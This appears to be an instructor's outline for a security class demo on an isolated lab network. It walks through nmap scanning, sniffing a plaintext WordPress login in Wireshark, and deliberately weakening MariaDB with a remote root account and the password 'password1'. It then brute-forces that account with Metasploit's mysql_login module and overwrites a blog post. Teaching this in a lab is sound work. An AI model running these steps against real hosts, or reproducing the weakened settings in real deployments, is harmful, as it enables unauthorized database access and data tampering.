 # Kali Linux demo

## Before we begin...

- **Very visibly disconnect from the Internet!**

## Kali Linux browse around

OK, you can reconnect to the Internet for this bit.

- Hover over programs to find out more information about them
- 'Undercover mode'
- Terminology...
	- OSINT?
	- SMB?
	- SMTP?
	- SNMP?
	- SSL?
- Linux filesystem structure
	- Home folder
	- `/`
	- `/bin/`, `/etc/`, `/var/`, et cetera — see https://en.wikipedia.org/wiki/Filesystem_Hierarchy_Standard
	- `/usr/share/wordlists/` ... ?

**Now: Very visibly disconnect from Internet!**

## Wireshark and nmap demo

**Continue to stay disconnected from the Internet!**

First, get Wireshark working:

- Launching wireshark
- Which interface to use?
- Which buttons to click?
	- Hover to check labels
	- Red button to stop
	- "X" file icon - Close this capture file - then select interface again
	- Downwards blue arrow - automatically follows trace
	- Restart current capture

What happens if we run:

- `nmap`
- `nmap --help`
- `nmap -vv -A 192.168.64.34`
- `nmap -A 192.168.64.34`

![nmap-output.png](../images/kali/nmap-output.png)

OK, you can reconnect to the Internet for this bit:

&uparrow; Interesting things to note here:

- `22/tcp open ssh OpenSSH 9.2p1 Debian ...`
	- https://www.cve.org/CVERecord/SearchResults?query=debian
		- https://security-tracker.debian.org/tracker/
	- https://www.cve.org/CVERecord/SearchResults?query=openssh
- `80/tcp open http Apache httpd 2.4.62 (Debian)`
	- https://www.cve.org/CVERecord/SearchResults?query=apache+httpd
- `http-generator: WordPress 6.1.6`
	- https://www.cve.org/CVERecord/SearchResults?query=wordpress
- `3306/tcp open mysql MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1`
	- https://www.cve.org/CVERecord/SearchResults?query=mysql
	- https://www.cve.org/CVERecord/SearchResults?query=mariadb
	
**Now: Very visibly disconnect from Internet!**

## Metasploit attack demo

### Setup Wordpress (if time permits)

OK, you can reconnect to the Internet for this bit:

- Followed https://wiki.debian.org/WordPress with adaptations:
	- Start with `sudo su -`
	- When running `mysql_secure_installation`
		- DO NOT switch to unix_socket authentication!
		- YES, change root password to password1
		- YES, remove anonymous users
		- DO NOT disallow root login remotely
		- YES, remove test database
		- YES, reload privilege tables
	- Replace myblog.example.com with debian001
	- Use `/etc/wordpress/config-default.php`
	- Use database root user for config
	- `mysql -u root -p`
	- `CREATE DATABASE wordpress;`
	- `quit;` or Ctrl+D to leave
- Then did the rest by web browser
	- Site Title = The Fantastic Website of Blair
	- Username = `blair`
	- Password = `password1`
	- Yes, Confirm use of weak password
	- Email = `hello@example.com`
- Deliberately weaken mysql setup
	- `mysql -u root -p`
		- `USE mysql;`
		- `DESCRIBE user;`
		- `SELECT host, user FROM user;`
		- `CREATE USER 'root'@'%' IDENTIFIED BY 'password1';`
		- `GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION;`
		- `FLUSH PRIVILEGES;`
	- `nano /etc/mysql/mariadb.conf.d/50-server.cnf`
	- Comment-out the `bind-address` line
	- `systemctl restart mysqld`
		- Read more about systemd - https://en.wikipedia.org/wiki/Systemd
		- Older or more esoteric systems may use various other systems - https://en.wikipedia.org/wiki/Init#Other_implementations
		- Try `systemctl status mysqld`

### Demonstrate Wordpress login and Wireshark trace of it

- Wireshark again
- Capture loading Wordpress page
	- Analyze --> Display Filters
	- `ip.addr == 192.168.64.34`
	- Observe user-agent
- Capture login
	- Filter: `ip.addr == 192.168.64.34 && _ws.col.info matches "POST"`
	- Scroll down to HTML Form data

![wireshark-trace-unsafe-wordpress-login.png](../images/kali/wireshark-trace-unsafe-wordpress-login.png)

&uparrow; Interesting things to note here:

- Compare with https://www.google.com/search?&q=tcp/ip+model&udm=2
	- Internet Protocol Version 4, Src: 192.168.64.28, Dst: 192.168.64.34
	- Transmission Control Protocol, Src Port: 33368, Dst Port: 80
	- Hypertext Transfer Protocol
- User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv: 128.0)
- Origin: http://192.168.64.34

### Attack using metasploit

**Now: Very visibly disconnect from Internet!**

- `msfconsole`
- notice how Ctrl+C and Ctrl+R work
- `search mysql`
- `search mysql login`
- `use auxiliary/scanner/mysql/mysql_login`
- `run rhost=192.168.64.34 username=root createsession=true pass_file=/usr/share/wordlists/metasploit/password.lst`
	- Run Wireshark immediately
	- When it stops, look at Wireshark log
		- `_ws.col.protocol == MySQL`

![metasploit-mysql-finally-ok.png](../images/kali/metasploit-mysql-finally-ok.png)

- `sessions`
- `sessions -i -1`
- `help`
- `query_interactive`
- `SHOW DATABASES;`
- `USE wordpress;`
- `SHOW TABLES;`
- Interrogate `wp_posts` using `DESCRIBE` and `SEELCT`; find specific post; overwrite content!
